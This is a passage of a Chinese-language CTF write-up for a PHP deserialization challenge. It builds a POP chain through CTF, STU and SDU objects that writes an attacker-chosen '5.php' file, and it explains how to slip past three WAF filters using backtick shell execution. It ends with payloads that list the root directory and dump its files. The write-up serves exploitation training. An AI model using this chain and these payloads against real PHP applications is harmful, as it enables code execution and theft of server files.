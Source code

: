              file_put_contents($filename, PassWAF2($data));
             echo "hack?";
             return "really!";
         }
     
         public function __destruct(){
             echo "bye";
         }
     }
     ```

     得到$hackman，$hackman两个变量，并执行function __toString()

2. **构造pop链和payload**

   * 构造payload

     在**function __toString()**中有两个值：

     $data是经过Base64Decode()加密一次，而$filename直接由$filename获得

     **$data**会被PassWAF1()过滤一次，**$filename**会被PassWAF3()过滤一次

     然后会将**$data**经过PassWAF2()执行一次后放入**$filename**里，即一个复杂的文件上传

   * 构造pop链

     由上述分析，可以倒着构造，即

     ```php
     // 构造 payload
     $payload = new CTF();
     $payload->hackman = base64_encode("传入文件的内容");
     $payload->filename = '5.php';
     $a=new STU($payload);
     $b=new SDU();
     $b->Dazhuan=$a;
     
     // 序列化
     $serialized_payload = serialize($b);
     echo $serialized_payload;
     ```

   * 绕过waf

     由于waf2会将$data每16位切分一次，且waf1不允许出现系统执行函数

     所以需要特殊方法绕过，

     可以用反引号`执行命令来绕过waf1；

     写简短命令避免waf2

   到此为止，可以构造简单的命令

   ```php
   <?php `ls / >1`;		//确定flag在根目录下
   <?php `nl /*>1`;	//读取payload
   ```
